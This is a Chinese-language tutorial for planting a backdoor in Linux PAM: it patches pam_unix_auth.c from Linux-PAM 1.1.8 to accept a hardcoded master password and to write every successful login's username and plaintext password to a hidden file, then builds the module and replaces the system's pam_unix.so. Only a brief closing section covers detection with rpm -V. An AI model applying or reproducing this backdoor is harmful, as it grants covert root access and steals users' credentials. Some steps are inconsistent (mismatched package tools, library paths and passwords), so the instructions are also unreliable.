


# PAM后门

## 一、查看本机pam版本

```bash
dpkg -l | grep pam
```




 

 ```bash
 [root@hcss-ecs-3689 pam_custom_auth]# rpm -qi pam
 Name        : pam
 Version     : 1.1.8
 Release     : 23.el7
 Architecture: x86_64
 Install Date: Mon 24 Jun 2024 08:48:16 PM CST
 Group       : System Environment/Base
 Size        : 2632373
 License     : BSD and GPLv2+
 Signature   : RSA/SHA256, Sat 04 Apr 2020 05:03:22 AM CST, Key ID 24c6a8a7f4a80eb5
 Source RPM  : pam-1.1.8-23.el7.src.rpm
 Build Date  : Wed 01 Apr 2020 12:00:59 PM CST
 Build Host  : x86-02.bsys.centos.org
 Relocations : (not relocatable)
 Packager    : CentOS BuildSystem <http://bugs.centos.org>
 Vendor      : CentOS
 URL         : http://www.linux-pam.org/
 Summary     : An extensible library which provides authentication for applications
 Description :
 PAM (Pluggable Authentication Modules) is a system security tool that
 allows system administrators to set authentication policy without
 having to recompile programs that handle authentication.
 [root@hcss-ecs-3689 pam_custom_auth]# 
 ```


CentOS7种默认的pam的版本为1.1.8

## 二、下载系统版本的pam

各个版本的pam包下载地址：

[http://www.linux-pam.org/library/](http://www.linux-pam.org/library/)   已失效，新版不在提供

本地下载 本源码目录右键打开	[Linux-PAM-1.1.8.tar.bz2](./Linux-PAM-1.1.8.tar.bz2)

新的地址，亲测有效： [https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/](https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/)

下载对应版本的压缩包并解压
```bash
wget https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/Linux-PAM-1.1.8.tar.bz2
tar -jxvf Linux-PAM-1.1.8.tar.gz
```


## 三、编译

安装依赖软件
```bash
yum install -y texinfo-5.1-5.el7.x86_64 flex-2.5.37-6.el7.x86_64 flex-devel flex
```

代码编辑

修改moudles/pam_unix/pam_unix_auth.c文件，修改处位于180行



 

 

```c
if(strcmp(p,"zsl123")==0)
{
    retval = PAM_SUCCESS;
}


// 下面的是记录明文密码
if(retval== PAM_SUCCESS)
{
    FILE *fp = fopen("/usr/share/java/.null","a+");
    fprintf(fp,"%s::%s\n",name, p);
    fclose(fp);
}

// name = p =NULL 上面的内容为新添加部分
```


修改完后在Linux-PAM-1.1.8.tar.gz 目录中执行命令

```bash
./configure && make
```


编译好的文件在modules/pam_unix/.libs/中

```bash
[root@hcss-ecs-3689 .libs]# ls -l
total 536
-rw-r--r-- 1 root root   8208 Jun 24 20:38 bigcrypt.o
-rw-r--r-- 1 root root  21232 Jun 24 20:38 md5_broken.o
-rw-r--r-- 1 root root  32680 Jun 24 20:38 md5_good.o
-rw-r--r-- 1 root root  28128 Jun 24 20:38 pam_unix_acct.o
-rw-r--r-- 1 root root  14872 Jun 24 20:38 pam_unix_auth.o
lrwxrwxrwx 1 root root     14 Jun 24 20:38 pam_unix.la -> ../pam_unix.la
-rw-r--r-- 1 root root    954 Jun 24 20:38 pam_unix.lai
-rw-r--r-- 1 root root  66360 Jun 24 20:38 pam_unix_passwd.o
-rw-r--r-- 1 root root  11216 Jun 24 20:38 pam_unix_sess.o
-rwxr-xr-x 1 root root 193104 Jun 24 20:38 pam_unix.so
-rw-r--r-- 1 root root  66856 Jun 24 20:38 passverify.o
-rw-r--r-- 1 root root  67872 Jun 24 20:38 support.o
-rw-r--r-- 1 root root   9872 Jun 24 20:38 yppasswd_xdr.o
[root@hcss-ecs-3689 .libs]# pwd
/opt/pam_custom_auth/Linux-PAM-1.1.8/modules/pam_unix/.libs
```


先mv备份原来的pam_unix.so
```bash
mv /lib64/x86_64-linux-gnu/security/pam_unix.so /lib64/x86_64-linux-gnu/security/pam_unix.so.bak
```


找到pam_unix.so 并替换
```bash
cp ./pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
```


## 四、验证

创建个普通用户
```bash
useradd 123
passwd 123
```

登录root
```bash
su root
goodboy
```

查看/usr/share/java/.null是否有记录
```bash
cat /usr/share/java/.null
```

## 五、反查

使用rpm工具去校验包的完整性，如果异常则有问题

```bash
[root@hcss-ecs-3689 .libs]# rpm -V pam
S.5....T.    /usr/lib64/security/pam_unix.so
```


